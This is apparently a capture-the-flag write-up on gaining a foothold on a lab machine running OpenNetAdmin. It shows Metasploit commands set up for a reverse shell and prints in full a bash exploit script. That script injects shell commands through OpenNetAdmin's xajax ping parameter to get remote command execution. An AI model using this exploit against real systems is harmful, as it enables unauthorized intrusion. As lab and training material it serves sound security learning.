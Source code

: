 OK cool, a database user. Also, we now know that it is using MySQL (which I would have assumed anyway, but it's good to know for sure.) That might be helpful later. The username especially.

After reading fully through the [installation and configuration instructions on the git repo](https://github.com/opennetadmin/ona/wiki), it is clear that ona_sys will have UPDATE access to the database, but should already have a password defined.

Not seeing anything else particularly interesting on this page, it might be time to move on.



## FOOTHOLD

### First Reverse Shell

Perhaps there is an exploit for this version of **opennetadmin**?

```
searchsploit opennetadmin
```

Oh nice! It looks like this version might be viulnerable. There is an exploit in **msfconsole** too, so let's try that next. First, set a new firewall rule allowing a reverse shell from the target machine to the attacker machine:

```
sudo ufw allow from 10.10.10.171 to any port 4444 proto tcp
```

Next, open up **msfconsole** and search for the exploit:

```
msfconsole
search opennetadmin
use 0
show info
set RHOSTS 10.10.10.171
set LHOST tun0
check
run
```

Unfortunately, even though the exploit passed the check, a reverse shell did not connect.

However, there was still one other really juicy-looking exploit that was listed on searchsploit. Let's check that out instead.

On my machine, the exploit is present at `/usr/share/exploitdb/exploits/php/webapps/47691.sh `. Reading though the script, it looks like the script only expects a single parameter, the target URL:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
